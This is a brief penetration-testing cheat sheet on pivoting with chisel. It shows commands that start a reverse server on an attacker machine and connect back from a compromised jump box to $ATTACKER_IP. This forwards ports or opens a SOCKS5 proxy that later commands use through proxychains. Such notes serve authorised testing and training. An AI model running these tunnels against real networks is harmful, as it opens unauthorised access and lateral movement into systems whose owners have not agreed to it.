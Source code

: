 Using CHISEL:
---

single port on attacker machine

```bash
chisel server --port 8000 --reverse
```

from jump box

```bash
./chisel client $ATTACKER_IP:8000 R:$PORT:$DEST_IP:$PORT
```

 Opening socks5 server on LOCAL machine on port 1080

```bash
chisel server --port 8001 --socks5 --reverse
```

on jump box

```bash
./chisel client --max-retry-count 1 $ATTACKER_IP:8001 R:socks
```

Then edit proxychains config:
  
```config
socks5 127.0.0.1 1080
```

Execute commands with

```bash
proxychains -q
```

in front of them